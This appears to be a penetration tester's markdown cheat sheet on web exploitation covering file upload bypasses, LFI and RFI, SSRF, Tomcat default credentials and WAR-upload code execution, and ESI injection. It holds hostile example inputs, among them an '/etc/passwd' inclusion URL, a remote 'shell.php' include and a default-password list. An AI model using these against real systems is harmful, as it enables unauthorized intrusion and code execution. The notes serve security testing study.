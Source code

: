 # Web vulnerabilities
Methods and commands to exploit vulnerabilities after recon


# File upload
## Normal file upload vulnerability
*Magic Bytes*
```
BMP :    42 4D
JPG :    FF D8 FF E0
PNG :    89 50 4E 47
GIF :    47 49 46 38
```
### Checklist
- `hexeditor -b shell.php` (for full explanation refer to this article [https://gobiasinfosec.blog/2019/12/24/file-upload-attacks-php-reverse-shell/](https://gobiasinfosec.blog/2019/12/24/file-upload-attacks-php-reverse-shell/))
- Try double extensions (.php.jpg)
- Follow [this]([https://www.onsecurity.io/blog/file-upload-checklist/) article and try any other methods that I have not mentioned    
[(https://www.onsecurity.io/blog/file-upload-checklist/)](https://www.onsecurity.io/blog/file-upload-checklist/)


## Exiftool
If one discovered that the server is using exiftool to process the image uploaded one can try to exploit the tool with the following methods:
- CVE-2021-22204
- SVG to XSS (https://brutelogic.com.br/blog/file-upload-xss/)


## Pillow PY
- Check if the script that validates the image files is vulnerable to CVE-2018-16509
- Craft malicious image files


# File inclusion
## LFI
If a local file is queried via a URL parameter, an attacker might be able to query local files that weren't intended to be seen.
### Example usage and occurrence
`http://site.com?module=login.php`    
A bad actor could exploit this and make the following URL:    
`http://site.com?module=/etc/passwd`    


## RFI
This would happen when a web app allows users to include remote files in the URL.
### Example usage and occurrence
`http://site.com?file=http://127.0.0.1/file`    
A bad actor could exploit this and make the following URL:    
`http://site.com?file=http://127.0.0.1/shell.php`    
This would allow an attacker to get a malicious file on the webserver.
### Errors
If there are any error whilst trying the methods described above, one might try to url encode the whole url either once or numerous times.    
That is because some rules are configured so that they wouldn't look for url encoded strings.
#### Example
`../login.php` would become `..%252Flogin.php`

### Other help
[https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)


# SSRF
Server Side Request Forgery
This would occur on a web page that allows for redirects. One could change the header with a proxy to their own server and upload / use their malicious file(s) on the victim's machine.
## Procedure
Make a script to redirect somewhere of your choice

```php
<?php
header("Location: http://site.com")
?>
```
Start up a local server `php -S <ip>:<port>`    
Query the script file from the victim site

# Tomcat
Help from: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)
## Default credentials
```
admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```
## RCE
If one has access to the Application Manager of Tomcat, the attacker can upload and run a .war file to execute code.     
**This is only possible if the account that the attacker is logged in with has enough privileges (admin,manager-script,manager)**


# ESIGate (ESI Injection)
Any ESIGate software is affected that has a lower version than *5.3*

## References
These are blog posts that consist of 2 parts
- [https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/)
- [https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)